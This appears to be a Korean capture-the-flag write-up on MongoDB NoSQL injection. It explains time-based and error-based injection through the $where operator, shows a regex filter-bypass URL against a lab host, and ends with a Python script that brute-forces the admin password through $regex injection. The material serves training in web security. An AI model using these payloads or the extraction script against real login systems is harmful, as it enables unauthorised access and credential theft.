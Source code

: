 **Figure 9. Sleep 함수를 통한 Time based Injection**
```
db.user.find({$where:
`this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```



**Error based Injection**
Errror based Injection은 에러를 기반으로 데이터를 알아내는 기법으로, 올바르지 않은 문법을 입력해 고의로 에러를 발생시킵니다. **Figure 10**를 살펴보면, `upw`의 첫 글자가 'g' 문자인 경우 올바르지 않은 문법인 `asdf`를 실행하면서 에러가 발생합니다.

**Figure 10. Error based Injection**
```
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생

> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```



### Exploit

**filter bypass**
filter함수가 특정 문자열을 필터링하고있지만, 정규표현식에서 임의 문자를 의미하는 `.`을 이용하여 쉽게 우회할 수 있습니다.
$regex -> 지정된 정규식과 일치하는 문서를 찾는 함수

```
http://host1.dreamhack.games:13698/login?uid[$regex]=ad.in&upw[$regex]=D.{*
```


**Exploit Code**
```
import requests, string

HOST = 'http://localhost'
ALPHANUMERIC = string.digits + string.ascii_letters # 숫자+문자(대소문자)
SUCCESS = 'admin'

flag = ''
for i in range(32): 
	for ch in ALPHANUMERIC: 
		response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}') 
		if response.text == SUCCESS: 
			flag += ch 
			break 			
	print(f'FLAG: DH{{{flag}}}')

```
